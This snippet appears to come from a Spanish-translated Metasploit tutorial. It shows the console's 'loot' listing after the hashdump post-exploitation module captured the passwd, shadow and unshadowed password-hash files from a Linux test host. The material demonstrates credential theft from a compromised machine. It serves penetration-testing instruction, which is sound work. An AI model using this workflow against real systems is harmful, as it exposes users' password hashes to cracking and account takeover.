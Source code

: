 	
	msf post ( hashdump )> loot
	
	Botín
	====
	
	host servicio tipo nombre contenido información ruta
	---- ------- ---- ---- ------- ---- ----
	172.16.194.172 linux.hashes unshadowed_passwd.pwd text / plain Archivo de contraseña sin sombra de Linux /root/.msf4/loot/20120627193921_msfu_172.16.194.172_linux.hashes_264208.txt
	172.16.194.172 linux.passwd passwd.tx text / plain Linux Passwd File /root/.msf4/loot/20120627193921_msfu_172.16.194.172_linux.passwd_953644.txt
	172.16.194.172 linux.shadow shadow.tx text / plain Archivo de sombra de contraseña de Linux /root/.msf4/loot/20120627193921_msfu_172.16.194.172_linux.shadow_492948.txt
